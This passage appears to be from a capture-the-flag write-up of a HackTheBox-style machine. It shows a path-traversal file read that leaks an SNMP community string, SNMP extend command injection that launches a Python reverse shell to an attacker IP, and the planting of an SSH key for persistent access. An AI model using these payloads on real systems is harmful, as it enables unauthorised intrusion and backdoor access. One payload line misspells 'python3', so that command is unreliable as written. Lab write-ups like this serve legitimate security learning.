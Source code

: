 A good old LFI reveals a user named `Debian-snmp`, after some research on "SNMP", and after getting to know that it is a network layer protocol with some configuration files and custom commands, and knowing that we can inject and trigger some commands knowing a certain security string. That security string is saved in the config files... So, let's access them with:

```bash
curl -X POST --cookie "$ADMIN_COOKIE" --data "logfile=../../../../../etc/snmp/snmpd.conf" "http:
//10.10.10.195/admin/log/view"
```

Getting our beautiful `rwcommunity` string: "SuP3RPrivCom90".

![image-20201103003206768](/assets/intense/image-20201103003206768.png)

Then, start listening with `nc` and we can prepare our payload and add it to `snmp` following [this article](https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e):

```bash
# Check if nc is installed
curl -s -X POST --cookie "$ADMIN_COOKIE" --data "logdir=../../../../../bin" "http://10.10.10.195/admin/log/dir" | grep -o "'nc'"
# Create command call
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."lolz"'  = createAndGo 'nsExtendCommand."lolz"' = /usr/bin/pyhton3 'nsExtendArgs."lolz"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.89\",9003));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")"'
# Reset SNMP to trigger the injected payload
snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendObjects
```

![image-20201103011037124](/assets/intense/image-20201103011037124.png)

Download the files from `/home/user` and start to analyze them, you'll notice that the executable operates on port 5001 on localhost, so why don't we establish an ssh tunnel to be more comfortable?

```bash
# Generate ssh key
ssh-keygen -b 2048 -t ed25519 -f ./key -q -N "" -C ""
# Put the key on the server
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."lolz"'  = createAndGo 'nsExtendCommand."lolz"' = /bin/bash 'nsExtendArgs."lolz"' = "-c 'echo ${KEY} >> ~/.ssh/authorized_keys'" && snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendObjects
# Launch local port forwarding
ssh Debian-snmp@10.10.10.195 -i key -N -L 5001:127.0.0.1:5001 -v
```
